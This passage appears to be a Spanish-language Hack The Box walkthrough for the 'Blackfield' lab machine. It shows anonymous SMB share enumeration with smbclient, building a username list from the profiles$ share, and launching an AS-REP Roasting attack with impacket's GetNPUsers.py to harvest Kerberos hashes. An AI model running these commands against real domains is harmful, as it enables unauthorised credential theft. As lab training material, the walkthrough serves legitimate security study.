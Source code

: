 Enumeramos el servicio smb sin usuario y password y podemos ver un directorio interesante llamado **profiles$**.

`smbclient -L 10.10.10.192`

![1](img/1.png)

Accediendo a ese directorio compartido se visualiza una larga lista de directorios los cuales utilizaremos para hacer una wordlist de usuarios.

- `smbclient //10.10.10.192/profiles$`

![2](img/2.png)

- `cat usernames.txt | cut -d " " -f 3 > userlist.txt`

![3](img/3.png)

Con esta lista de usuarios podemos intentar un ataque **ASREPRoast** para obtener hashes de Kerberos de algún usuario que no requiera pre-autenticación. Nos apoyaremos de la herramienta **GetNPUsers.py** de **impacket**.

`python GetNPUsers.py BLACKFIELD/ -usersfile /home/marty/htb/Box/Windows/Blackfield/userlist.txt -dc-ip 10.10.10.192`
